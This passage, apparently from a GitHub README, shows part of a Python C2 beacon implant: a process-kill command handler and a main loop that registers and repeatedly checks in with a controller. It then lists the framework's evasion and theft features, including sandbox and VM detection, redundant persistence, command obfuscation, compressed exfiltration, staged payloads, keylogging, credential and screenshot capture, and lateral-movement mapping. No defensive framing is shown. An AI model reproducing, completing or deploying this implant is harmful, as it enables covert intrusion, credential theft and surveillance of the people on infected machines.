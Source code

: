 ```python
        return "\\n".join(processes[:50])
    
    elif action == "kill":
        for proc in psutil.process_iter():
            if target.lower() in proc.name().lower():
                proc.kill()
                return f"[+] Killed {proc.name()}"
        return f"[-] Process {target} not found"
    
    return "[-] Unknown action"

# Main beacon loop
if __name__ == "__main__":
    register()
    
    while True:
        try:
            checkin()
            time.sleep(CHECKIN_INTERVAL)
        except Exception as e:
            print(f"[-] Error: {e}")
            time.sleep(10)
```

---

## 🛡️ Operational Security Features

1. **Encrypted Storage**: All sensitive data stored with encryption options
2. **API Authentication**: SHA256 hashed API keys
3. **Session Management**: Isolated sessions per beacon
4. **Audit Logging**: All operations logged with timestamps
5. **Data Compression**: GZIP compression for exfiltrated data
6. **Anti-Analysis**: Beacon can detect sandboxes and VMs
7. **Persistence Redundancy**: Multiple persistence mechanisms
8. **Command Obfuscation**: PowerShell and command obfuscation
9. **Traffic Encryption**: HTTPS/TLS support
10. **Multi-stage Payloads**: Staged payload delivery

---

## 🎨 Web Interface Enhancements

The web interface includes:
- **Real-time beacon monitoring** with status indicators
- **Interactive command console** with history
- **Screenshot gallery** with thumbnails
- **Credential viewer** with search/filter
- **Keylog timeline** with window tracking
- **Network map** showing lateral movement
- **Task scheduler** with visual calendar
- **File browser** with drag-and-drop
- **Session manager** with terminal emulation
- **Statistics dashboard** with charts

---